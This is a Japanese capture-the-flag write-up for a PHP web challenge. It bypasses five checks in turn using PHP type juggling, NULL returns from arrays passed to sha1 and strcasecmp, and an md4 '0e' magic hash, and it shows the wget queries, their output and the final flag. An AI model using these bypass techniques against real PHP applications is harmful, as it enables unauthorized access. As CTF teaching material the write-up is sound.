 # PharAway:Web Exploitation:100pts
Explaining the Analytical Engine's function was a difficult task, bypass the basic php to see what she tried to explain  
Link: [http://34.72.245.53/Web/PHPhar/](http://34.72.245.53/Web/PHPhar/)  
[index.php](index.php)  

# Solution
index.phpが配られる。  
中身は以下のようであった。  
```php:index.php
<?php


include('flag.php');




$a=$_GET['flag0'];
if(strlen($a)>3){                                                 
}
if($a>900000000){
  echo "<h1>".$flag[0]."</h1>";
}
#------------------------------------------------------------------------------------------------------------------
$_p = 1337;
$_l = 13;
$l = strlen($_GET['secret']);
$_i = intval($_GET['secret']);
if($l !== $_l || $_i !== $_p)                                 
{
    die("bye");
}
echo "<h1>".$flag[1]."</h1>";

#-----------------------------------------------------------------------------------------------------------------------
if (isset($_GET['a']) and isset($_GET['b'])) {
    if ($_GET['a'] === $_GET['b'])
        print 'Your password can not be your dog\'s name.';                                  
    else if (sha1($_GET['a']) === sha1($_GET['b']))
      echo  "<h1>".$flag[2]."</h1>";
    else
        print '<p class="alert">Invalid password.</p>';
}
#-----------------------------------------------------------------------------------------------------------------------------
if (!isset($_GET["md4"]))
{
    
    die();
}

if ($_GET["md4"] == hash("md4", $_GET["md4"]))
{
    echo "<h1>".$flag[3]."</h1>";
}
else
{
    echo "bad";
}

#-----------------------------------------------------------------------------------------------------------------------------

if (isset($_GET['abc'])){
    if (!strcasecmp ($_GET['abc'], $flag[4])){
        echo $flag[4];}}

?>
```
段階的にロックを解除していくようだ。  
一段階目は以下になる。  
```php
$a=$_GET['flag0'];
if(strlen($a)>3){                                                 
}
if($a>900000000){
  echo "<h1>".$flag[0]."</h1>";
}
```
flag0が長さ3より大きく、900000000より大きければよい。  
以下のようにクエリを設定した。  
```bash
$ wget -q -O - "http://34.72.245.53/Web/PHPhar/?flag0=900000001"

<h1>shaktictf{</h1>bye
```
二段階目は以下になる。  
```php
$_p = 1337;
$_l = 13;
$l = strlen($_GET['secret']);
$_i = intval($_GET['secret']);
if($l !== $_l || $_i !== $_p)                                 
{
    die("bye");
}
echo "<h1>".$flag[1]."</h1>";
```
secretが長さ13で、先頭が1337始まりである文字列であれば良い。  
以下のようにクエリを設定した。  
```bash
$ wget -q -O - "http://34.72.245.53/Web/PHPhar/?flag0=900000001&secret=1337aaaaaaaaa"

<h1>shaktictf{</h1><h1>An4ly71c4l_</h1>
```
三段階目は以下になる。  
```php
if (isset($_GET['a']) and isset($_GET['b'])) {
    if ($_GET['a'] === $_GET['b'])
        print 'Your password can not be your dog\'s name.';                                  
    else if (sha1($_GET['a']) === sha1($_GET['b']))
      echo  "<h1>".$flag[2]."</h1>";
    else
        print '<p class="alert">Invalid password.</p>';
}
```
aとbが厳密に一致しておらず、二つの`sha1`が厳密に一致していればよい。  
`sha1`は配列が渡された場合、NULLを返す。  
つまり、aとbを異なる配列にしてやればよい。  
以下のようにクエリを設定した。  
```bash
$ wget -q -O - "http://34.72.245.53/Web/PHPhar/?flag0=900000001&secret=1337aaaaaaaaa&a[]=a&b[]=b"

<h1>shaktictf{</h1><h1>An4ly71c4l_</h1><h1>Eng1n3</h1>
```
四段階目は以下になる。  
```php
if (!isset($_GET["md4"]))
{
    
    die();
}

if ($_GET["md4"] == hash("md4", $_GET["md4"]))
{
    echo "<h1>".$flag[3]."</h1>";
}
else
{
    echo "bad";
}
```
厳密でない比較なので、0e始まりで残りが数字であるものは0として扱われる。  
入力とハッシュ値が0e始まりであり、それ以外が数字であるものを探す。  
md4では、入力`0e251288019`、ハッシュ値`0e874956163641961271069404332409`が知られている。  
以下のようにクエリを設定した。  
```bash
$ wget -q -O - "http://34.72.245.53/Web/PHPhar/?flag0=900000001&secret=1337aaaaaaaaa&a[]=a&b[]=b&md4=0e251288019"

<h1>shaktictf{</h1><h1>An4ly71c4l_</h1><h1>Eng1n3</h1><h1>!=D1ff3r3nc3</h1>
```
最終段階は以下になる。  
```php
if (isset($_GET['abc'])){
    if (!strcasecmp ($_GET['abc'], $flag[4])){
        echo $flag[4];}}
```
`strcasecmp`は第一引数に配列を渡すとNULLが返ってくる。  
つまり、第三段階と同じことを行う。  
以下のようにクエリを設定した。  
```bash
$ wget -q -O - "http://34.72.245.53/Web/PHPhar/?flag0=900000001&secret=1337aaaaaaaaa&a[]=a&b[]=b&md4=0e251288019&abc[]=abc"

<h1>shaktictf{</h1><h1>An4ly71c4l_</h1><h1>Eng1n3</h1><h1>!=D1ff3r3nc3</h1>_Eng1n3}
```
Web問なのでアクセスするともちろんflagが表示される(ここからコピーすると楽)。  
flag  
[flag.png](site/flag.png)  

## shaktictf{An4ly71c4l_Eng1n3!=D1ff3r3nc3_Eng1n3}